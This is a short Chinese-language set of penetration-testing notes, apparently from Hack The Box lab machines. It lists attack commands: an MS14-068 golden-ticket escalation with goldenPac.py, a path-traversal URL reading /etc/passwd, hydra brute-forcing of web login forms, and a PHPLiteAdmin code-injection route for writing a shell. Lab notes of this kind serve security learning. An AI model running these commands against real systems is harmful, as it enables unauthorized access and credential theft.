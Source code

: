 - MS14068 利用提权，黄金票据

  ```bash
  └─# goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52  htb.local/james@mantis.htb.local
  ```



- 删除文件最后一行

  ```bash
  sed -i '$d' monitor.sh
  ```

  查看文件前 10 行

  ```bash
  └─# strings ninevehForAll.png | head -n 10
  ```

  

- PHPLiteAdmin 利用 [PHPLiteAdmin 1.9.3 - Remote PHP Code Injection ](https://www.exploit-db.com/exploits/24044)，就是常规写 shell ，可能要配合其它文件包含漏洞一起利用   




- 留心文件包含的 URL

  ```http
  10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
  ```



- hyrdra 包破 http/https 表单

  ```bash
  hydra -l admin -P /usr/share/seclists/Passwords/probable-v2-top12000.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid" -t 64 -I
  
  hydra -l admin -P keyword.list 10.10.10.43 https-post-form  "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64 -I
  
  # userpass 为 username:password 的形式
   hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
  ```



- knock 敲开端口的配置文件 `knockd.conf`

  ```bash
  cat /etc/knockd.conf
  ```



- linux 私钥登录

  ```bash
  └─# chmod 0400 id_rsa
  └─# ssh -i id_rsa amrois@10.10.10.43
  ```

